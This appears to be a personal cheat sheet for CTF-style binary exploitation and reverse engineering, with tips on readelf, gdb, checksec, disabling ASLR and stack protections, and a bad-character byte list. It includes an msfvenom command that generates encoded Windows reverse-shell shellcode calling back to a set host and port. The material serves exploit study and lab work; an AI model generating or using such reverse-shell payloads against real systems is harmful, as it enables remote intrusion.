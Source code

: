 ## General stuff

- If after injecting your payload, after a push function, your payload become weird, increase the size of the stack.

- try ```strings```, and ```ltrace```

- If anti debugging options seem enabled, put hardware breakpoint in IDA (right click, put breakpoint, then edit breakpoint, hardware)

- Need an argument in hex ? or other format (pay attention to sign / unsigned, it depends of the binary ): https://cryptii.com/pipes/integer-encoder

- Always check the format of the input ! You can see sometimes in R2 ```%d %s``` etc. Because it will be important after.

---

## print informations about an elf 

- ```readelf -h <binary> ```

---

## Don't understand an instruction on windows 32 bits ? 

- https://en.wikipedia.org/wiki/Win32_Thread_Information_Block

---

##  Find opcodes  

- http://ref.x86asm.net/coder32.html

---

## Statif ELF Parser : 

- http://www.elfparser.com/

---

## View the name of the functions inside a binary 

- ```readelf -a <binary> | grep <function> | grep -vi glibc```

---

## Create a binary without any protection

1. ```echo 0 > /proc/sys/kernel/randomize_va_space```
2. disable stack canary, stack is executable, PIE disable : ```gcc -o vuln -fno-stack-protector -no-pie -z execstack vuln.c```

---

## Ptrace protection

- if you have an error because of ptrace protection and a segmentation fault, try to dump it before the call in gdb :  
1. ```catch syscall ptrace```
2. ```run```
3. ```generate-core-file binary.dump```

---

## Check security in place

- ```checksec```

---

## python3 and encoding

- send payload in a oneliner  : ```python -c 'import sys;sys.stdout.buffer.write(b"\xff\xa...")'```

## Msfvenom generate shell in ASM

`msfvenom -l payloads` (or whatever, encoder etc), then grep

Example : `msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.156 LPORT=4343 -f c -b "\x00\x0a\x0d" -e x86/shikata_ga_nai  EXITFUNC=thread`


the `-f c` is for a c formated shell code

If there are bad characters, use `-b <Badchars>`, and use `-e` to encode
(shikata_ga_nai for the example)

Don't forget to add nop code before (\x90)

## List of all chars (to search for bad chars)
```
\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff
```
